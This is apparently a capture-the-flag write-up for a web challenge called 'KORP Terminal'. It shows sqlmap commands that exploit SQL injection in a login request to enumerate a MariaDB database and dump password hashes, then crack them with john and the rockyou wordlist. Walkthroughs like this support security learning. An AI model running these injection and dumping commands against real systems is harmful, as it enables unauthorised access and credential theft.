# KORP Terminal

So here is the page we are greeted with:

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nothing much happening here, nothing in the source code, so i go on and capture a request

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried some basic sql bypasses but nothing seems to be a low hanging fruit but i was able to make an interesting error pop:

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we got some mariaDB behing this, but since i wan't to be quick i copy all the content in the request tab and put it in a txt file:

```
sqlmap -r req.txt
```

<figure><img src="../../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get blocked because of the response code but we can continue by ignoring this:

```
sqlmap -r req.txt --ignore-code 401 --dbs
```

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables korp_terminal
```

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables users --columns
```

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 -T users -C password --dump
```

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now that we have our hash we can try to bruteforce ir:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt.gz
```

and we find the password (we could guess that smh...)
